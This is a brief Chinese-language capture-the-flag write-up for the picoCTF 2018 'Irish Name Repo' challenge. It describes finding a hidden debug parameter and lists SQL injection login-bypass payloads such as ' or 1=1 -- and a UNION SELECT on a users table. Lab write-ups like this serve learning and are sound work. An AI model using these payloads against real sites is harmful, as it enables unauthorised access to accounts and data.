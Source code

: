 從原始碼或 burpsuite 可發現存在 hidden 變數 debug<br>
將 debug 值設為 1 即可發現存在 sql injection 漏洞

![image](https://github.com/dreamisadream/CTF/blob/master/picoCTF2018/Irish%20Name%20Repo/irish1.png)

試了幾種後發現
-- 和 ; 可以用
＃ 會出錯
```
' or 1=1 --
' or 1=1 ;
admin' --
UNION SELECT * FROM users --
```
